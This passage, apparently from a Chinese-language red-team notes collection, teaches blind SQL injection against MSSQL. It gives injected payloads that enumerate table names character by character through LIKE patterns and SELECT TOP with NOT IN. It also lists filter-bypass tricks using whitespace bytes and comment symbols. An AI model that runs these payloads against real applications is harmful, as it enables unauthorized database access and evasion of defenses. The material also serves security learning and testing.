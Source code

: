MSSQL 所用的正则表达式并不是标准正则表达式 ，该表达式使用 like 关键词
```sql
1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )
```

该查询语句中，select top 1 是一个组合，不要看错了。

如果要查询其它的表名，由于不能像 mysql 那样用 limit x,1，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前 x 行里，其实查询的就是第 x+1 行。

例如查询第二行的表名：
```sql
1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )
```

表达式的顺序：
```
'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE
```

之所以表达式 news[a-z] 查询后返回正确是应为 % 代表 0-n 个字符，使用 "_" 则只能代表一个字符。故确认后续是否还有字符可用如下表达式
```
'news%' TRUE -> 'news_' FALSE
```

同理可以用相同的方法获取字段，值。这里就不再详细描述了。

### bypass 技巧

**select from 后的位置**
- 空白符号
    ```
    01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
    ```
    需要做 urlencode,sqlserver 中的表示空白字符比较多,靠黑名单去阻断一般不合适.

- 注释符号

    Mssql 也可以使用注释符号 `/**/`

- `.` 符号

    ![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SQLi/34.jpg)

- `:` 号

    ![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SQLi/35.jpg)

